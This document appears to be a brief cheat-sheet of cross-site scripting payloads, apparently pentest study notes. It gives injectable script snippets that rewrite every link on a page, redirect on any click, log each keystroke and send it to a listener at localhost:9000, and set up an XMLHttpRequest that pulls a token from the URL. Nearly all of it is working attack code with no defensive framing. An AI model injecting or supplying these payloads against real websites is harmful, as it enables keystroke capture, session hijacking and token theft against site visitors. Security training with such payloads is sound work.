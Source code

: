 ## href change
```js
<script>for(let i of document.getElementsByTagName("a"))i.href="http://localhost"</script>
```


## event
``` js
<script>document.body.addEventListener('click',event=>{location.href="http://PentesterAcademy.com"});</script>
```
## keylogger
```js
<script>window.addEventListener("keydown",event=>{new Image().src="http://localhost:9000/?kedown="+event.key;})</script>
```

## XMLHttpRequest
```js
var xhr = new  XMLHttpRequest();
xhr.onreadystatechange=function(){
 if(xhr.readyState==4 && xhr.status==200){
  something;
 }

};

var token = window.location.search.split('&')[1];
xhr.open("GET","url",true);
xhr.send();

```
